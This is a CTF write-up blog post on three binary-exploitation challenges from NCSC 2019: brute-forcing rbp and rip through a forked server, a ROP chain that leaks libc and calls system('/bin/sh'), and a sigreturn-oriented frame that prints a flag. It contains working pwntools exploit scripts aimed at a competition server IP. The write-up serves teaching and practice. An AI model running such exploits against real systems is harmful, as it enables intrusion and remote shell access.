 ```yaml
---
layout: post
title:  "NCSC 2019 - pwn"
author: "Rettila"
tags: NCSC pwn srop stack overflow
---
```


Hi, this post will cover some binary exploitation tasks that we solved during the first edition of the National Cyber Security Congress organized by Securinets.

## Bruter
The binary was PIE enabled as we can see by running `checksec ./bruter`
{% highlight console %}
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
{% endhighlight %}
This protection (PIE) combined to ASLR results in full randomization (or not) of the program's address space.

The first bug is a call to fork function: after a fork, both parent and child will have the same address layout.

The second bug is a call to read in `handle_child` function: the program reads 0x400 bytes of user input but saved rbp is only 0x10 bytes away from our our buffer start.
{% highlight console %}
|           0x00000e5a      ba00040000     mov edx, 0x400
|           0x00000e5f      4889ce         mov rsi, rcx
|           0x00000e62      89c7           mov edi, eax
|           0x00000e64      e817fdffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
|           0x00000e69      90             nop
|           0x00000e6a      c9             leave
\           0x00000e6b      c3             ret
{% endhighlight %}
So, if we are able to overflow the buffer and overwrite rbp and the return address then we have control over rip and the execution flow.

Our goal is to execute `get_shell`
{% highlight console %}
/ (fcn) sym.get_shell 31
|   sym.get_shell ();
|           0x00000da0      55             push rbp
|           0x00000da1      4889e5         mov rbp, rsp
|           0x00000da4      488d3d0d0400.  lea rdi, str.Solved         ; 0x11b8 ; "Solved!!!"
|           0x00000dab      e850fdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x00000db0      488d3d0b0400.  lea rdi, str.bin_bash_2__4_1__4___4 ; 0x11c2 ; "/bin/bash 2>&4 1>&4 <&4"
|           0x00000db7      e864fdffff     call sym.imp.system         ; int system(const char *string)
|           0x00000dbc      90             nop
|           0x00000dbd      5d             pop rbp
\           0x00000dbe      c3             ret
{% endhighlight %}
In order to do so, we need to find a valid rbp and the code base defined by the PIE protection. As stated before, the address space is the same at each connexion.

The solution consists in guessing the two parametres (rbp and rip) one byte at once starting from the first rbp byte:

- if the guessed byte value is correct, the program execution will go on and we will receive `Bye` as an answer and we can move to the next byte.

- if not, then we have no output return because the program crashed or jumped to another code location, we can conclude that the guessed byte value was wrong.

Once we have rip, we can calculate the code base and then jump to `get_shell` function.

{% highlight python %}
from pwn import *

server = '51.254.114.246'
port = 9998

i = 16
p = "A"*i
rbp = ''
while len(rbp)<8:
    for j in range(256):
        r = remote(server,port)
        r.send(p+rbp+chr(j))
        out = r.recvall()
        print 'trying rbp: ',rbp+chr(j)
        if "Bye" in out:
            rbp += chr(j)
            r.close()
            break
        r.close()
print "Leaked rbp: ",rbp.encode('hex')


s1 = p+rbp
rip = ''
while len(rip)<8:
    for j in range(256):
        r = remote(server,port)
        r.send(s1+rip+chr(j))
        out = r.recvall(timeout = 1)
        print 'trying rip: ',rip+chr(j)
        print out
        if "Bye" in out:
            rip += chr(j)
            r.close()
            break
        r.close()

print "rbp",rbp.encode('hex') 
print "rip",rip.encode('hex')

for i in range(0xf):
	r = remote(server,port)
	r.recv()
	get_shell = p64( (u64(rip) & 0xfffffffffffff0000) + (i <<12) + 0xda0)
	payload = s1 + get_shell
	r.sendline(payload)
	try:
		r.sendline('ls')
		print r.recv()
		r.interactive()
	except:
		pass
	r.close()
{% endhighlight %}

## ropper
A classic buffer overflow, we have control over rip after 168 bytes in the vuln function.
ASLR is enabled on the server.
{% highlight console %}
rett@RETTILA:~/ctf/ncsc/pwn$ checksec ropper
[*] '/home/rett/ctf/ncsc/pwn/ropper'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
{% endhighlight %}

We have got some unusual gadgets from the `help_gadgets` function to help us setting our arguments
{% highlight console %}
/ (fcn) sym.help_gadgets 8
|   sym.help_gadgets ();
|           0x00401192      55             push rbp
|           0x00401193      4889e5         mov rbp, rsp
|           0x00401196      5f             pop rdi
|           0x00401197      5e             pop rsi
|           0x00401198      5a             pop rdx
\           0x00401199      c3             ret
{% endhighlight %}
To find out the libc version and base, we started by leaking two adresses of libc using the following payload

`padding + pop rdi , rsi and rdx + 0x1 + write from the GOT table + 0x8 +  vuln address + padding + pop rdi , rsi and rdx + 0x1 + printf from the GOT table + 0x8`

which results in the execution of the following functions:

`write(1,write_got,8) --> call to vuln function again --> write(1,printf_got,8)`

By checking [libc database search][libc_id_link] , we can easily determine libc version and the the system function and `/bin/sh` string offsets from the libc.

Second execution payload will contain:

`padding + pop rdi , rsi and rdx + 0x1 + write from the got table + 0x8 +  vuln address + padding + pop rdi , rsi and rdx ( too lazy to look for pop rdi ) + calculated '/bin/sh' string address + calculated system address`

Too lazy to clean the code, so i put both of the steps in one script

{% highlight python %}
from pwn import *

pop_rdi_rsi_rdx = 0x00401196
vuln = 0x00401259
write_plt = 0x00401040 
write_got = 0x0404020
printf_got = 0x404030

r = remote('51.254.114.246', 3333)
r.recv()

p = 'A'*168
p += p64(pop_rdi_rsi_rdx)
p += p64(1)
p += p64(write_got)
p += p64(8)
p += p64(write_plt)
p += p64(vuln)
r.send(p)
out = r.recvuntil('Gi')
out = out[:len(out)-2]
leak_write = u64(out[len(out)- 8:])

print hex(leak_write)
print out

r.recv()

p = 'A'*168
p += p64(pop_rdi_rsi_rdx)
p += p64(1)
p += p64(printf_got)
p += p64(8)
p += p64(write_plt)
p += p64(vuln)
r.send(p)
out = r.recvuntil('Gi')
out = out[:len(out)-2]
leak_printf = u64(out[len(out)- 8:])

print hex(leak_printf)

base = leak_printf - 0x055800
system = base + 0x045390
binsh = base + 0x18cd57

p = 'A'*168
p += p64(pop_rdi_rsi_rdx)
p += p64(binsh)
p += p64(0)
p += p64(0)
p += p64(system)
r.send(p)
out = r.recvuntil('Gi')
out = out[:len(out)-2]
leak_printf = u64(out[len(out)- 8:])

print hex(leak_printf)

r.interactive()
r.close()
{% endhighlight %}

## signal
A binary containing very few code that reads user input to the top of the stack and calls for sigreturn (rax set to 0xf).

{% highlight python %}
/ (fcn) entry0 23
|   entry0 ();
|           0x00401000      31c0           xor eax, eax                ; [08] m-r-x section size 36 named LOAD1
|           0x00401002      31ff           xor edi, edi
|           0x00401004      31d2           xor edx, edx
|           0x00401006      b604           mov dh, 4
|           0x00401008      4889e6         mov rsi, rsp
|           0x0040100b      0f05           syscall
|           0x0040100d      31ff           xor edi, edi
|           0x0040100f      6a0f           push 0xf                    ; rax
|           0x00401011      58             pop rax
|           0x00401012      0f05           syscall
|           0x00401014      cd03           int 3
            ;-- rip:
\           0x00401016      c3             ret
{% endhighlight %}

All we need to do is to read the flag at address 0x00402000
{% highlight console %}
0x00402000 36 str.Securinets_Flag_is_in_remote_server
{% endhighlight %}

The supplied input is our constructed sigreturn frame containing a call to write(1, flag address, 50)

{% highlight python %}
from pwn import *

context.clear(arch="amd64")

#~ r = remote('51.254.114.246',2222)
r = process('./pwn_c')

frame = SigreturnFrame(kernel="amd64") 
frame.rax = 1 
frame.rdi = 1 
frame.rsi = 0x00402000 
frame.rdx = 50 
frame.rsp = 0x41414141
frame.rip = 0x00401012 
payload = str(frame)
r.send(payload)
print r.recvall(timeout=1)
{% endhighlight %}

[libc_id_link]:https://libc.blukat.me/
